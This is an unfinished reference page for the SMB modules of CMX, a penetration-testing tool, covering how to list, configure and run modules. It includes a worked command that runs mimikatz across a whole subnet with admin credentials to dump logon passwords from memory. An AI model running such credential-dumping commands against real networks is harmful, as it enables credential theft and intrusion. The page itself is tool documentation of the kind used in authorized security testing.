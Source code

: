 # SMB: Modules Reference
Created by: @awsmhacks  
Updated: 8/20/19   
CMX Version: 5.0.1
  
** NOT FINISHED **


**Notes:**  
* The following examples assume you have a Kali Linux host connected to an internal network.    
* For the examples it is also assumed hosts are within a 192.168.1.0/24 IP space.   
* If CMX isnt giving output of anykind, you probably have something wrong with the command.   
- - -(better timeout messages are still a work-in-progress)  
  

--------------------------------------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------------------------------------

# Modules

## List available SMB modules
Returns a list of loaded modules. The protocol can be replaced, i.e. {smb, http, mssql, winrm, ssh}
```
~# cmx smb -L
```
**Expected Results:**
```
[*] mimikatz                  Dumps all logon credentials from memory
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## List Module Options
Returns options specific to a module
```
~# cmx smb -M <module_name> --options
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## Specifying Module Options
Module options are specified using -o after the module name  
All options should be specified in the form KEY=VALUE  
When using several options, seperate with a space  
    i.e -o KEY=VALUE KEY=VALUE KEY=VALUE  
```
~# cmx smb -M <module_name> -o KEY=VALUE [KEY=VALUE] [KEY=VALUE]
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## Using Modules (and Options)
Modules must be specified after the protocol, target and credentials.  
Many Modules have default options, otherwise options must be specified.   
```
~# cmx <protocol> <target> <credentials> -M <module_name> [-o KEY=VALUE [KEY=VALUE] [KEY=VALUE]]
```
**Example:**
```
~# cmx smb 192.168.1.0/24 -u Admin -p 'p@ssw0rd' -M mimikatz -o COMMAND='sekurlsa::logonpasswords'
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
--------------------------------------------------------------------------------------------------------------------------------------------------------
